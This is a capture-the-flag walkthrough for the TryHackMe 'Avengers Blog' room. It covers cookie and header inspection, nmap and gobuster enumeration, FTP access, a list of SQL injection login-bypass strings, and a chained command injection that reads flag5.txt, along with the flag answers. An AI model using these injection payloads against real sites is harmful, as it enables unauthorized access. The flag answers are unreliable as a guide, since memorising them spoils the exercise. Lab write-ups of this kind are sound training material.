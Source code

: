 # Avengers Blog Wlakthrough
### Link
- https://tryhackme.com/room/avengers
------------------------
### Task 1 : Deploy
- Follow instructions
------------------------
### Task 2 - Cookies
- On the deployed Avengers machine you recently deployed, get the flag1 cookie value.
    - Open Web developer tools
    - If you work with Firefox
        - Select Storage
        - Cookies
        - Picture: [Avengers_Blog_2.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_2.png)
    - If you work with Google Chrome
        - Select Application
        - Under Storage , select Cookies
        - Picture: [Avengers_Blog_1.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_1.png)
- **Answer** : cookie_secret
---------------------------
### Task 3 - HTTP Header
- Look at the HTTP response headers and obtain flag 2
- Always under Developer tools
    - Firefox
        - Network tab
        - Refresh the page
        - On the left panel, select the first GET request
        - On the left panel, select the tab Header
        - Scroll down and find flag2
        - Picture: [Avengers_Blog_3.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_3.png)

        - Google Chrome
            - Network tab
            - On the left panel, select the first request (should be materialize by the IP)
            - On the right panel,  select Headers tab
            - Find flag 2
            - Picture: [Avengers_Blog_4.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_4.png)
- **Answers** : headers_are_important
---------------------------
### Task 4 - Enumeration
Look around the FTP share and read flag 3!
- Perform Nmap
    - sudo nmap -sC -sV -oN ./Avengers_Blog_Namp_result [IP]
    - Picture: [Avengers_Blog_5.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_5.png)
- FTP is opened. THM platform provides the access credentials: username (groot) and a password (iamgroot)
    - Log to the FTP
    - Navigate and find flag3.txt
    - Download flag3.txt
        - get flag3.txt
        - quit
    - Consult flag3.txt
        - cat flag3.txt
    - Picture: [Avengers_Blog_6.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_6.png)
- **Answers** : 8fc651a739befc58d450dc48e1f1fd2e
---------------------------
### Task 5 - Gobuster
- What is the directory that has an Avengers login?
- Gobuster command
    - sudo gobuster dir -u http://[IP] -w [Wordlist path]/directory-list-2.3-medium.txt
    - One interesting result: /portal (Status: 200)
    - Let's try this
- Picture: [Avengers_Blog_7.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_7.png)
- **Answers** : /portal
---------------------------
### Task 6 - SQL Injection
-  Log into the Avengers site. View the page source, how many lines of code are there?
    - Based on the indication from TryHackMe, the portal is vulnerable to SQL injection. Before to try automatic tool such as BurpSuite, let's try some basic SQL Injection
    >' or "<br>
    >-- or #<br>
    >' OR '1<br>
    >' OR 1 -- -<br>
    >" OR "" = "<br>
    >" OR 1 = 1 -- -<br>
    >' OR '' = '<br>
    >' OR 1 = 1 --   (correct pattern)<br>
    - Picture: [Avengers_Blog_8.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_8.png)
    - Check the source page
    - **Answers** : 223
---------------------------
### Task 7 - Remote code execurtion and linux
- Read the contents of flag5.txt
- Some command are authorize but not all. For example : ls , cd
    - cd ..;ls;tac flag5.txt
- Picture: [Avengers_Blog_9.png](https://github.com/LNB283/THM/blob/main/EASY/Avengers%20Blog/Pictures/Avengers_Blog_9.png)
- **Answers** : d335e2d13f36558ba1e67969a1718af7

